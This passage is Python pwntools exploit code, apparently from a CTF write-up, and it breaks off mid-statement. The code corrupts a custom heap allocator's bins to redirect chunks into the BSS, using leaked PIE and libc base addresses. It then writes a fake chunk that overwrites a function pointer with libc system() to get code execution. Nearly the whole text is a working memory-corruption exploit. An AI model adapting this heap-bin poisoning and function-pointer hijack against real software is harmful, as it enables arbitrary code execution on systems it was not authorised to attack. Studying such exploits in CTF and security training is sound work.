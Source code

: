```py
## DELETE DUMMY CHUNK 2 TO CHANGE CUSTOM HEAP BINS ##
pay = delete_chunk(b"C"*6)
pay += b"\x00"*3 + p8(flag)
pay += b"e" + b"\xFF"
pay += b'\x00'*12
pay += b"C"*6

s.send(pay)
sleep(1)

## DELETE DUMMY CHUNK 3 TO CHANGE CUSTOM HEAP BINS ##
pay = delete_chunk(b"D"*6)
pay += b"\x00"*3 + p8(flag)
pay += b"e" + b"\xFF"
pay += b'\x00'*12
pay += b"D"*6

s.send(pay)
sleep(1)

bss_chunk = PIE_BASE + 0x5034
log.info(f"bss_chunk: {hex(bss_chunk)}")

## CHANGE CUSTOM HEAP BINS ##
pay = write_chunk(b"B"*6)
pay += b"\x00"*3 + p32(flag)
pay += p8(filed_18)
pay += b"e" + b"\xFF"
pay += b"\x00" * (0xFF+2)
pay += b"8" + b"\xFF"
pay += p64(0)*3 + b"\x10" + b"\x00"*5 + p64(bss_chunk) 

s.send(pay)
sleep(1)


## DELETE DUMMY LINKED LIST FROM CUSTOM HEAP BINS ##
pay = write_chunk(b"E"*6)
pay += b"\x00"*3 + p32(flag)
pay += p8(filed_18)
pay += b"e" + b"\xFF"
pay += b"\x00" * (0xFF+2)
pay += b"8" + b"\x10"

s.send(pay)
sleep(1)

system = LIBC_BASE + l.symbols['system']
log.info(f"libc_system: {hex(system)}")

fake_chunk = PIE_BASE + 0x5050
log.info(f"fake_chunk: {hex(fake_chunk)}")

## CHANGE BSS AREA WITH FAKE CHUNK AND CALL FUNCTION POINTER ##
pay = write_chunk(b"F"*6)
pay += b"\x00" * 3 + p32(flag)
pay += p8(filed_18)
pay += b"e" + b"\xFF"
pay += b"\x00" * (0xFF+2)
pay += b"8" + b"\x80"
pay += b"\x00"*2
pay += p64(fake_chunk)
pay += fit({
```